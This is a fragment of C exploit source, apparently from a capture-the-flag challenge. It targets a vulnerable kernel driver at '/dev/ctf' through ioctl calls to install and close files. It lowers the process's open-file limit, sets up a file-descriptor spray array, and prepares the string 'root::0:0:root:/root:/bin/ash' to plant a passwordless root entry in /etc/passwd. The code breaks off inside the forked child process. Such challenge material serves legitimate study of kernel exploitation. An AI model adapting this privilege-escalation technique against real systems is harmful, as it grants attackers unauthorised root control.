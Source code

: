 ```c
#include <string.h>


#define IOCTL_CTF_INSTALL_FILE	_IOWR('s', 0x41, int)
#define IOCTL_CTF_CLOSE_FILE	_IOWR('s', 0x42, int)
#define DEVICE_FILE "/dev/ctf"
#define TMP_FILE "/home/user/tmp"

// ioctl IOCTL_CTF_INSTALL_FILE wrapper.
int install_file(int device_fd, int *fd) {
	
	int installed_fd = ioctl(device_fd, IOCTL_CTF_INSTALL_FILE, fd);
	if (installed_fd < 0) {
		warn("[!] IOCTL_CTF_INSTALL_FILE failed");
	}

	return installed_fd;
}

// ioctl IOCTL_CTF_CLOSE_FILE wrapper.
void close_file(int device_fd, int *fd) {
	
	int res = ioctl(device_fd, IOCTL_CTF_CLOSE_FILE, fd);
	if (res < 0) {
		err(0, "[-] IOCTL_CTF_INSTALL_FILE failed");
	}
	
	return;
}

// Limits the available amount of open files handable by the current process.
void set_fd_limit(int cur, int max) {

	struct rlimit new, old;
	new.rlim_cur = cur;
	new.rlim_max = max;

	int res = prlimit(getpid(), RLIMIT_NOFILE, &new, &old);
	if (res < 0) {
		err(0, "[-] prlimit failed\n");
	}
	
	printf("[+] RLIMIT_NOFILE set to:\n[+]\trlim_cur = %d\n[+]\trlim_max = %d\n", cur, max);

	return;
}

int main(int argc, char *argv[]) {
	
	const char *placeholder = "Looks like it does not work properly D:\n";
	const char *privesc = "root::0:0:root:/root:/bin/ash";
	int pid = -1;
	int fd0, fd1, device_fd;
	int fd_spray[512];
	void *ptr;

	puts("[+] Fork & wait for success");
	pid = fork();
	if(pid == -1) {
		err(0, "[-] Failed to fork for a new process");
	}
	else if(pid == 0) {
		
```